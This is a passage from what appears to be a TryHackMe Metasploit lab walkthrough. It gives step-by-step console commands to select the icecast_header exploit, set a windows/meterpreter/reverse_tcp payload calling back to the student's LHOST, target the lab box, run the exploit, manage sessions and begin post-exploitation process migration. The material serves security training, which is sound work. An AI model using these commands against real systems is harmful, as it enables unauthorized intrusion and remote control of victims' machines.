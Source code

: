 	`exploit/windows/http/icecast_header`

7. While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command `use NUMBER_NEXT_TO exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

	![search](/assets/thm/metasploit/metasploit4.png)
	
	`#`

8. Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results.

9. Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.

10. Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

11. One last step before we can run our exploit. Run the command 'set RHOSTS BOX_IP' to tell Metasploit which target to attack.

12. Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.

13. Once we've started this, we can check all of the jobs running on the system by running the command `jobs`

14. After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`

## Task 6 - We're in, now what?

1. First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command 'ps'. What's the name of the spool service?
